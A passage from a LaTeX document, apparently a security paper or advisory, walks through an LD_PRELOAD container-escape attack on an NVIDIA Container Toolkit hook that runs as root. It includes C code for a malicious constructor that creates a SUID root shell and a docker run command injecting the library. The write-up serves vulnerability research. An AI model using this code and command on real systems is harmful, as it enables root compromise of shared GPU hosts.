 \begin{enumerate}
  \item \textbf{Craft the malicious shared library.} The attacker writes a shared library with a constructor function (a function annotated with \texttt{\_\_attribute\_\_((constructor))} in C) that executes the attacker's payload when the library is loaded. Because this runs before \texttt{main()}, it executes at the earliest possible moment in the host process lifecycle, before any security checks in the hook's application logic.
 
\begin{lstlisting}[language=C, caption={Pseudocode for the malicious shared library constructor.}]
// evil.c -- compiled to evil.so
#include <unistd.h>
#include <stdlib.h>
 
__attribute__((constructor))
void payload(void) {
    // Executed with root privileges on the HOST
    // at the moment the hook process loads this library.
    // Example: spawn a reverse shell, write an SSH key,
    // create a SUID shell binary, etc.
    system("/bin/bash -c 'cp /bin/bash /tmp/rootshell"
           " && chmod u+s /tmp/rootshell'");
}
\end{lstlisting}
 
  \item \textbf{Place the library on a shared path.} The library must be reachable from the host filesystem at the time the hook runs. The attacker mounts a host directory into their container (a common practice for data I/O) and writes the compiled \texttt{evil.so} there. Alternatively, certain NVIDIA device paths mounted by the toolkit itself may be exploitable.
 
  \item \textbf{Set \texttt{LD\_PRELOAD} in the container environment.} When starting the container, the attacker sets the environment variable \texttt{LD\_PRELOAD} to the host-side path of \texttt{evil.so}. In Docker CLI syntax:
 
  \begin{lstlisting}[language=bash, caption={Container launch with injected LD\_PRELOAD.}]
  docker run --gpus all \
    -e LD_PRELOAD=/mnt/shared/evil.so \
    -v /host/shared:/mnt/shared \
    attacker-image
  \end{lstlisting}
 
  \item \textbf{Hook invocation.} As part of the container startup sequence, the OCI runtime invokes the NVIDIA \texttt{createContainer} hook (nvidia-ctk hook \texttt{enable-cuda-compat}) on the host with root privileges.
  \\ Due to the environment inheritance vulnerability, the crafted library is present in the hook's environment.
 

\end{enumerate}
